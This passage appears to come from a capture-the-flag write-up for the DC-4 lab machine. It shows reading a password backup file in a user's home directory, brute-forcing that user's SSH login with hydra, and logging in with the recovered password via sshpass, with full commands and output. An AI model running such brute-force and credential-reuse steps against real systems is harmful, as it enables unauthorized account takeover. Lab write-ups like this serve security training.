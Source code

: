 There is an interesting `backups` directory in `jim`'s home folder, that contains a passwords dictionary. Let's get the file locally to perform a brute force attack.

~~~
www-data@dc-4:/home/jim/backups$ ls -la
ls -la
total 12
drwxr-xr-x 2 jim jim 4096 Apr  7  2019 .
drwxr-xr-x 3 jim jim 4096 Apr  7  2019 ..
-rw-r--r-- 1 jim jim 2047 Apr  7  2019 old-passwords.bak
www-data@dc-4:/home/jim/backups$ head old-passwords.bak
head old-passwords.bak
000000
12345
iloveyou
1q2w3e4r5t
1234
123456a
qwertyuiop
[REDACTED]
~~~

## Brute force

Let's brute force jim's SSH account:

~~~
kali@kali:/data/DC_4/files$ hydra -l jim -P old-passwords.bak ssh://dc-4 -t 64
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-07 08:13:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 252 login tries (l:1/p:252), ~4 tries per task
[DATA] attacking ssh://dc-4:22/
[22][ssh] host: dc-4   login: jim   password: jibril04
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 47 final worker threads did not complete until end.
[ERROR] 47 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-07 08:13:34
~~~

## Connect as jim

Now that we have brute forced jim's account, let's connect:

~~~
kali@kali:/data/DC_4/files$ sshpass -p "jibril04" ssh jim@dc-4
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Wed Oct  7 16:16:06 2020 from 172.16.222.128
jim@dc-4:~$ id
uid=1002(jim) gid=1002(jim) groups=1002(jim)
~~~
